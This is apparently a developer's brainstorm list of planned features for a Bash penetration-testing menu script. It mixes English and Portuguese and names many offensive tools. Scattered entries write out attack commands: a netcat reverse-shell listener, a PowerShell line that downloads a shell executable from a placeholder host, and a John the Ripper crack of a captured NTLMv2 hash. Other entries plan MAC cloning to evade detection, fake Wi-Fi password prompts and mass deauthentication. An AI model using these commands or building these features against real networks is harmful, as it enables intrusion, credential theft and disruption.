 # Future Features

**This is the resource schedule, if you need something that is not on that list you have three options:**\
**1 -** You can request the resource for me, if it is a good idea I will implement it, but at the end of the task list.\
**2 -** If you need urgency, you can write the code and send it to me.\
**3 -** Pay me to implement the feature.\

**This list is constantly evolving, so duplicate items or grammatical errors are common here. Imagine this page as a great brainstorm.**\
**If you have any ideas, you can branch this page and commit to me. If the idea is good, I will implement**\

**1 -** The change mac menu is not working? Check this\
**2 -** Change and test torghost option to torghostNG\
**3 -** Implement Jhon the reaper here, there is a logic on my notion page\
**4 -** Change al the things that i need to chose an wifi card to the already developed selectedwificard\
**5 -** Study and implment nmap(Don't forget to make some funcion using -sS --script vuln) and put a option to chose the type of verbosity\
**6 -** Study and implment some functions using psexec.py\
**7 -** Study and implement mssqlclient.py.\
**8 -** There are other great tools in inpackt? like psexec and mssqlclient, check and implement.\
**9 -** Implement a menu to creat an temporary server using python, like python3 -m http.server 80, and the path to the server\
**10 -** Revist the script, read top from boton and see what can be done better\
**11 -** Change all the variables in the script to lowercase, its a best pratice\
**12 -** Check if there is a way to implment automatizations in metasploit here, to automate some tasks\
**13 -** Study and implement GoBuster, but, what i do about dirbuster?\
**14 -** Implement a menu for airodump and aircrack, to show conections, put in monitor mode and other functions\
**18 -** Implement Hydra, there is a logic in my Notion page\
**19 -** If i choose to mantin dirsearch, maybe i will need to put as root because the logs are not saving correctly\
**20 -** Revist the script, read top from boton and see what can be done better\
**21 -** If i choose to do not replace dirsearch, check if there is other options that area not implemented, like recursive use and cvs use\
**22 -** Replace where is "test" for [[comand]]. Test is a obsolete function






 22 - estuda o crunch e implementa no script é um otimo programa para gerar listas de senhas para quando precisar descobrir uma senha mas já tem um padrão em mente
 24 - Sera que este é o mlehor jeit ode fazer menu possivel? Vis sobre a possibilidade de usar o comand select do bash, da uma estudada nisso, pode ser uma boa tem mais aqui https://wiki.bash-hackers.org/syntax/ccmd/user_select
 27 - Eu não sei se é possivle, mas se for que tal dar uma estudada no pyshark? e implentar aqui em um script de bash, é possivel ou so quando este script mudar pra python?
 28 - Implement patetor? it is a best tool? then Hydra? Search more.
 29 - Implement study mor about reponder.py, and add to the script a method to crack a password using jhon the reaper Faz um menu para o jhon the reaper john SMB-NTLMv2-SSP-192.168.100.101.txt –wordlist=/usr/share/wordlists/rockyou.txt porque é relacionado ao responder.py
 30 - Tem algum jetio de colocar romandos pra rodar no metasploit por aqui? seria sensacional, ai conforme eu for aprendendo eu vou adiciondo, tambem tem a questão que tira pra aprender bem e se possivel até fazer um curso de metasploit é uma ideia exelente, planeja melhor
 30.1 - Revist the script, read the script from the top to the begining and see what cam be done better
 31 - Create a function to check if a program is instaling before runnning and if not instaled then ask to install, and apply to all my tools in this script
 32 - Study and implement hashcat
 32 - Create a Function who: 1 - you imput an wifi nam 2 -  the coputer clone that mac adress from the AP to avoid detection, 3 - Show options to crack that wifi, like: Show a fake iput from password, and automated tools using weakness
34 - Replace all echos for printf, its better
35 - See how i avoid to use eval, its too bat for security
36 - Study and implement a funciontion using curl, there so much good about, like set and get cookieas, or send post, is very versatile
38 - Study and implement an script using WinPEAS.exe, maybe an bat? to automatize? and also WinPEAS.py to check for vulns in linux
39 - Study Msfvnom and implement, it is an excelent payload generator[:]
40 - Study and implent rlwrap nc -lnvp 4444 its realy good to reverse shells and study about the rlwarp ok? to understend perfectly. Maybe using pwncat?
40.1 - Revist the script, read the script from the top to the begining and see what cam be done better
41 - Create a menu with util stuff, like "powershell "(New-Object System.Net.WebClient).Downloadfile('http://<ip>:8000/shell-name.exe','shell-name.exe')" this is for download archives using powrshell
42 - Put in dirsearch an option to save the output, its awsome to CTFs  and reports
43 - study the best directory wordlist, to use in dirbuster or afuzz, or another tool
44 - Study and implement wpscan, its a good tool to break into wordpress sites
45 - Cretate a menu who check if two ips are in them same network. This same menu can, calculate things like, create networks for ips, like: i need 2 networks with a minimum 200ips, or i need an netsplit a network in 3 other networks, things like this. And print a tamble explaining the result showing the binaries in colours. There some creat linux tools for this maybe only implement is suficient
46 - Study and implement rustscan, its a realy good tool. There is a github repository
47 - Sudy and inplement inplement  One-Lin3r its a realy good tool to acelerate the process of geting reverse shells, and other scripts
48 - Migrate the Script to Python, sarch for a method to run bash code inside python an migrate gradually if possible, if not, than create an second script and start the developmenti
49 - Create a Function who update the script with the last features implemented in the github version
50 - Revist the script, read the script from the top to the begining and see what cam be done better
53 - If don't exist yet, make an script to automate deauth all dispositives in an network, maybe in more than one if possible
54 - Organize the menu in a better way, is too confuse
55 - Implement a flag to disable the notification "command will running in 5 seconds, or even change the time"
56 - Study massscan, its good for mass scaning ports, or rustscan? What is better?
57 - Add an option to windows tools, like mimikatz and think if only show then or run then, i think run its better, butt tike about
58 - Study and implement msfvenom its a great tool to make palyloads
59 - Study and implement nikto
60 - Revist the script, read the script from the top to the begining and see what cam be done better
62 - Study and implement termshark, its good to see pcaps in terminal
63 - Study and implement FFUF, its really fast because its in go
64 - Implement option so search ".bak" in in websearches, it really good to see some codes
65 - Study and implement Uchecker, its a good tool to check for not uptodate tools on servers
66 - Study and implement Snort, its a preaty good to to check for viruses in network, its good for networks and home users
77 - Remove cpf generator, there is better tools online
78 -  Study and implment sublist3r, its a really great scanner for subdomains ussing ossint
79 - Study and implement pwncat, its a really great reverse shell hander, is the one by calleb stuart, not the other
80 - Revist the script, read the script from the top to the begining and see what cam be done better
81 - Study and implment nikton its a good webscaner
82 - Study and implment social engenner tookit, its really god to work with social engineer
83 - Change DirBuster by Gobuster? Search more about... Gobuster has more users, maybe its better? actualy is more faster than dirbuster, so thats is what matter
84 - Implement wfuzz its preaty great
85 - Study and Implement Sqlmap
86 - Implement te 'sectlist' program from kali, its a copy for the repository on github. Maybe a menu here or an option to use in the aplications who neded, also study what is the best wordlists for who?
87 - Study and implent enum4linux, its preaty good to use to enumerate samba shares
88 - Create an option to disable showing comands after runnning. Maybe a flag before ruing? like BRHackTools -noverbose
89 - Study and implement sherlock, its a great tool for OSINT
90 - Revist the script, read the script from the top to the begining and see what cam be done better
91 - Study and implement airgedon its good to do deauth atacks in softwarey
92 - What i can do to make this script more beautiful? Maybe some colors or ident?
93 - Maybe Implement RustScan? Its so fast
